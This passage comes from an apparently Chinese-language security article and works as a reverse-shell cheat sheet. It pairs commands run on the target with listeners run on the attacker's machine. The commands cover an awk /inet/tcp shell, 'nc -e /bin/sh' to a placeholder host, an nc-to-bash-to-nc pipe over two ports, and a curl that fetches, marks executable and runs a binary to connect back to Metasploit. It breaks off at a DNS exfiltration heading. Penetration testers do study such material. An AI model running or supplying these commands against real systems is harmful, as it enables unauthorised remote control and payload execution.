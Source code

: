   
目标机：  
  
awk 'BEGIN {s = "/inet/tcp/0/x.x.x.x/6666";
while(42) { do{printf "shell>" |& s; s |& getline c;
if(c){ while ((c |& getline) > 0) print $0 |& s; close(c);}} while(c
!= "exit") close(s)}}' /dev/null  
  
攻击机：  
  
nc -lvvp 6666  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WAyrRuvrubFQ72toTib2CEPEI3UXSicVic3EQbz1cIfmAYKkanJOgibV8vZxqhMJy7icJUZIZjslZP137nktUj2Tfjw/640?wx_fmt=png&from=appmsg "")  
  
  
### nc反弹shell  
  
  
  
  
目标机：  
  
nc -e /bin/sh x.x.x.x 6666  
  
攻击机：  
  
nc -lvp 6666  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WAyrRuvrubFQ72toTib2CEPEI3UXSicVic3szJFdoo2diaQXv2buSIxDiciamiauPxdWM1uIuVl8L5078RIXxaAKCg2dw/640?wx_fmt=png&from=appmsg "")  
  
如果nc没有-e参数  
  
使用nc x.x.x.x 6666 | /bin/bash | nc x.x.x.x
5555#从6666端口获取到命令，bash 运行后将命令执行结果返回 5555 端口，攻击者主机上也是打开两个终端分别执行监听。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WAyrRuvrubFQ72toTib2CEPEI3UXSicVic345giadicwibjefK96xibcxgjicicYVyxZYlVaDhOYib0cAXWeTFZELhe1Leyg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WAyrRuvrubFQ72toTib2CEPEI3UXSicVic35EvEjMcER8kTkDiauyaSYylcbGLsfsxDyg0JNomGkUQicYzbkiaKXcUcg/640?wx_fmt=png&from=appmsg "")  
###   
###   
  
上线MSF  
  
  
  
目标机：  
  
curl http://0.0.0.0:40160/bins -o /opt/bins
-k;chmod +x /opt/bins;/opt/bins > /dev/null 2>&1 &  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WAyrRuvrubFQ72toTib2CEPEI3UXSicVic39KGz084e0JMWpoI84QIgFSJhEwc5QR3pZmXHkWbAbpqqUCnS23D1Xw/640?wx_fmt=png&from=appmsg "")  
  
攻击机  
msf执行监听：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/WAyrRuvrubFQ72toTib2CEPEI3UXSicVic3WTf48umdticoTiaGuI3qRJaeMMlk4c2U5qhqXpRQnpxPySV1DSEdmJ2A/640?wx_fmt=png&from=appmsg "")  
  
  
DNS外带利用  
  